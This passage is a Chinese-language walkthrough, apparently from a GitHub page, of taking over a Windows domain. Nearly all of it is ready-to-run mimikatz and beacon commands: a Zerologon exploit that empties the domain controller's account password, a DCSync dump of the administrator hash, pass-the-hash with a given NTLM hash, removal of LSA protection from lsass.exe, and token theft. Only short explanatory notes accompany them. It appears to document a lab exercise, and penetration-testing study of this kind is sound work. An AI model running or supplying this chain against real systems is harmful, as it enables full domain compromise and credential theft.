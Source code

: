#### 利用漏洞重置域账号

> 利用漏洞重置域账号密码为空

```shell
mimikatz lsadump::zerologon /target:10.10.10.10 /account:DC$ /exploit
```

#### 获取域控用户Hash

```shell
mimikatz lsadump::dcsync /domain:mingy.local /dc:DC /user:administrator /authuser:DC$ /authdomain:mingy /authpassword:"" /authntlm
```

#### 得到域管权限

- 获得`SeDebugPrivilege`权限

  ```shell
  mimikatz privilege::debug
  ```

  > 注意：因为当前`beacon`用户权限为域内普通用户`MINGY\bob`，需要有管理员或者`SYSTEM`权限才能获得`SeDebugPrivilege`权限，因此需要在提权操作后得到的 `beacon`中执行本步骤操作，这里我们通过`ms15-051`得到`SYSTEM`权限的`beacon`

- 进行hash注入

  ```
  mimikatz sekurlsa::pth /user:administrator /domain:mingy /rc4:7e9067ca378134e50512ab894de75517
  ```

  > 注意：
  > `Win10`环境下需要绕过`LSA Protection`，该功能需要`mimidrv.sys`文件
  >
  > 使用 `mimikatz`绕过`LSA Protection`的命令为：
  >
  > ```shell
  > privilege::debug
  > !+
  > !processprotect /process:lsass.exe /remove
  > ```

- Token窃取得到域管权限

  通过窃取具有域管权限的cmd.exe进程Token，得到域管权限：

  ```
  steal_token 3664
  ```

#### 恢复域密码

```
shell reinstall_original_pw.exe DC 10.10.10.10 2f7ff113dc8e29e9e2394cdbd05bf2ae
```

#### 修改域管密码

```shell
lsadump::postzerologon /target:10.10.10.10 /account:DC$
```
